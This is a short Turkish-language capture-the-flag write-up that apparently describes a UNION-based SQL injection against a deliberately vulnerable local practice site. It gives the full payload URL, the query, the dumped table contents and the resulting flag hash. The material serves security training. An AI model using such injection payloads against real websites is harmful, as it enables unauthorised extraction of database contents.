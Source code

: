 # Image SQL Injection Attack

SQL enjeksiyon saldırısını aşağıdaki URL'yi kullanarak gerçekleştirdik:

```
http://localhost:8080/index.php?page=searchimg&id=-1+UNION+SELECT+1%2C+CONCAT%28id%2C+url%2C+title%2C+comment%29+FROM+list_images&Submit=Submit#
```

Kullanılan sorgu:

```
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images
```

Aldığımız sonuç:

- **Başlık:** 5borntosec.ddns.net/images.pngHack me? If you read this just use this md5 decode lowercase then sha256 to win this flag! : 1928e8083cf461a51303633093573c46
- **Url:** 1

Talimatları takip ettikten sonra, [#file:flag.txt](#file:flag.txt-context) dosyasından bayrağı elde ettik.

`flag.txt` dosyasının içeriği:

```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```
